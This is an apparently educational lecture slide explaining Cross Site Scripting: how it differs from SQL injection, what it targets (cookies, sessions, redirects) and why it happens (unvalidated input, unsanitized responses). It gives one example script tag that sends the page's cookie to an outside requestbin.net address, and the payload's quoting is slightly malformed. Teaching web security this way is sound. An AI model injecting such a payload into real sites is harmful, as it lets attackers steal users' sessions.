

# Cont.
Cross Site Scripting (XSS) attack
is different from SQL injection because it is a client-side code injection attack.
is generally written  with JavaScript code and sometimes with HTML code for injection.
is targeting users and mostly used to modify the content of the website, steal user’s cookies or session information, redirect the website that is created by the attacker.
can happen if the web application does not validate the user input requesting from the untrusted source and does not sanitize the script in the HTTP response.
For Example,
<script>document.location=http://requestbin.net/r/w4obypw4='+document.cookie</script>

9